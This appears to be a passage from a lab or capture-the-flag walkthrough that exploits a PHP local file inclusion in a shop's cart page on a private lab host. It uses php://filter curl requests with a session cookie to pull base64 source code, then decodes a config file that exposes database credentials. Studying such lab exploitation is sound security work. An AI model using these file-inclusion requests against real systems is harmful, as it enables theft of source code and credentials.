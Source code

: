 `curl "http://192.168.56.132/shop_cart.php?action=php://filter/convert.base64-encode/resource=config" -b "PHPSESSID=lmuhnvetfqp9615v0l6b5vst91" -s`:
```html
<html>

[...]

PD9waHAKJHNlcnZlcm5hbWUgPSAibG9jYWxob3N0IjsKJHVzZXJuYW1lID0gInNob3BfYWRtaW4iOwokcGFzc3dvcmQgPSAiSGV5LVBscy1Eb250LUNyYWNrLVRoaXMtUGFzc3dkIjsKJGRibmFtZSA9ICJzaG9wIjsKCiRjb

[...]

yb3IiIC4gJGNvbm4tPmNvbm5lY3RfZXJyb3IpOwp9CgovLyBDb25maWd1cmFyIGVsIGp1ZWdvIGRlIGNhcmFjdGVyZXMKJGNvbm4tPnNldF9jaGFyc2V0KCJ1dGY4Iik7Cj8+Cg==

[...]

</html> 
```

`echo "PD9waHAKJHNlcnZlcm5hbWUgPSAibG9jYWxob3N0IjsKJHVzZXJuYW1lID0gInNob3BfYWRtaW4iOwokcGFzc3dvcmQgPSAiSGV5LVBscy1Eb250LUNyYWNrLVRoaXMtUGFzc3dkIjsKJGRibmFtZSA9ICJzaG9wIjsKCiRjb [...] yb3IiIC4gJGNvbm4tPmNvbm5lY3RfZXJyb3IpOwp9CgovLyBDb25maWd1cmFyIGVsIGp1ZWdvIGRlIGNhcmFjdGVyZXMKJGNvbm4tPnNldF9jaGFyc2V0KCJ1dGY4Iik7Cj8+Cg==" | base64 -d`:
```php
<?php
$servername = "localhost";
$username = "shop_admin"; ←
$password = "Hey-Pls-Dont-Crack-This-Passwd"; ←
$dbname = "shop";

$conn = new mysqli($servername, $username, $password, $dbname); ←

// Verificar la conexión
if ($conn->connect_error) {
    die("Error" . $conn->connect_error);
}

// Configurar el juego de caracteres
$conn->set_charset("utf8");
?>
```

`curl "http://192.168.56.132/shop_cart.php?action=php://filter/convert.base64-encode/resource=admin" -b "PHPSESSID=lmuhnvetfqp9615v0l6b5vst91" -s`:
```html
<html>

[...]

PD9waHAKcmVxdWlyZV9vbmNlICIuL2NvbmZpZy5waHAiOwoKc2Vzc2lvbl9zdGFydCgpOwoKaWYgKCRfU0VTU0lPTlsndXNlcm5hbWUnXSAhPT0gJ2FkbWluJykgewogICAgaGVhZGVyKCdMb2NhdGlvbjogbG9naW4ucGhwJyk7CiAgICBleGl0Owp9CgokbG9nZ2VkID0gZmFsc2U7CgppZiAoaXNzZXQoJF9TRVNTSU9OWydsb2dnZ

[...]

VpcmVkPgoKICAgICAgICAgICAgPGlucHV0IHR5cGU9InN1Ym1pdCIgdmFsdWU9IlVwbG9hZCI+CiAgICAgICAgPC9mb3JtPgogICAgPC9kaXY+Cgo8L2JvZHk+Cgo8L2h0bWw+

[...]

</html> 
```

